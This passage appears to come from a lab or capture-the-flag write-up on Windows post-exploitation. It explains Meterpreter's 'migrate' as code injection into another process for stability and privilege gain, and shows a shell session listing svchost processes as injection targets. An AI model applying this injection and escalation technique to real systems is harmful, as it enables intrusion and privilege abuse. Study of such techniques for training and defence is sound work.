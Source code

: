 - Now, one of the oldest tricks on the book is to migrate into another Windows processes:

```
There are many cases where you need to "migrate" a specific Windows working process, typically a shell.
- An unstable shell.
- Migrate from a 32-bit process to a 64-bit process.
- Dealing with exploits require an interactive session.
```


- This can be easily completed if you have a Meterpreter shell. All you have to do is wait for process migration to occur after launching the 
"migrate" command with the PID specified. n technical terms, by creating a thread inside another process, this is more of a malicious code injection than a true 
migration, and Meterpreter is exceptional at doing this. It creates a new remote thread and injects your current session into it, along with all of your loaded 
extensions and configurations.

- By migrating into a more privileged process, we should be able to gain `NT AUTHRITY`:
```
(Meterpreter 5)(C:\Windows\system32) > shell
Process 2780 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> Get-Process svchost
Get-Process svchost

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                   
-------  ------    -----      -----     ------     --  -- -----------                                                   
    195      11     1844       8572       0.08     68   0 svchost                                                       
    147       7     1240       6160       0.02    308   0 svchost                                                       
    182       8     1436       6476       0.20    320   0 svchost                                                       
    319      16    21404      23888      18.44    400   0 svchost                                                       
     96       5      888       4028       0.00    744   0 svchost                                                       
    781      16     5300      15144       0.80    764   0 svchost                                                       
    930      16     4476      11204       2.06    832   0 svchost                                                       
    380      13     9948      14524      10.97    852   0 svchost                                                       
    245      10     1736       7148       0.14    884   0 svchost                                                       
    196      15     6120      10420       0.02   1020   0 svchost                                                       
    138       7     1196       5852       0.00   1028   0 svchost                                                       
    175       9     1716       7952       0.05   1036   0 svchost                                                       
    233      12     2692      11820       1.16   1044   0 svchost                                                       
```